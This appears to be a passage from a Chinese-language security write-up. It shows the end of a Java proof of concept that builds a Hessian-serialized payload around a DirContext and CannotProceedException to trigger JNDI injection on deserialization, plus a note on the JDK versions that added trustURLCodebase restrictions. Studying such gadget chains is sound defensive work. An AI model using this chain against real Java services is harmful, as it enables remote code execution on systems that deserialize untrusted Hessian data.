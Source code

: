 ```java

        setFieldValue(cpe, "suppressedExceptions", null);
        DirContext ctx = (DirContext) ccCons.newInstance(cpe, new Hashtable<>());

        JSONObject jo = new JSONObject();
        jo.put("test", ctx);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(baos);
        baos.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(jo);
        out.flushBuffer();

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        Hessian2Input input = new Hessian2Input(bais);
        input.readObject();
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
    public static Field getField ( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }
}
```

为什么需要jdk高版本注入

```java
因为JDK在RMI和LDAP的trustURLCodebase做了限制，从默认允许远程加载ObjectFactory变成了不允许。RMI是在6u132, 7u122, 8u113版本开始做了限制，LDAP是 11.0.1, 8u191, 7u201, 6u211版本开始做了限制。
所以修复后的JDK版本无法在不修改trustURLCodebase的情况下通过远程加载ObjectFactory类的方式去执行Java代码。
```
